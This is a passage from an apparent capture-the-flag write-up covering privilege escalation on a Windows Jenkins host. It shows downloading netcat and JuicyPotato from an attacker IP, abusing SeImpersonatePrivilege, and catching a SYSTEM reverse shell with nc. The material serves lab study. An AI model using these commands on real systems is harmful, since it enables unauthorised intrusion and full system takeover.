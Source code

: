 ```shell
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
The SeImpersonatePrivilage means it is possible to elevate to system privileges through COM server abuse.

### 5. Elevate to SYSTEM
Copy the exploit and nc to the machine.
```
PS C:\Users\Administrator\.jenkins> Invoke-WebRequest -Uri http://10.10.14.36/nc64.exe -Outfile nc.exe
PS C:\Users\Administrator\.jenkins> Invoke-WebRequest -Uri http://10.10.14.36/JuicyPotato64.exe -Outfile jp.exe
```
Execute the exploit, providing arguments telling it to connect back on port 9999.
```shell
PS C:\Users\Administrator\.jenkins> .\jp.exe -l 1337 -p C:\windows\system32\cmd.exe -a "/c C:\Users\Administrator\.jenkins\nc.exe -e cmd.exe 10.10.14.36 9999" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
Catch the system shell.
```shell
┌──(kali㉿kali)-[10.10.14.36]-[~/Desktop]
└─$ sudo nc -lvnp 9999                
listening on [any] 9999 ...
connect to [10.10.14.36] from (UNKNOWN) [10.129.148.24] 49703
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
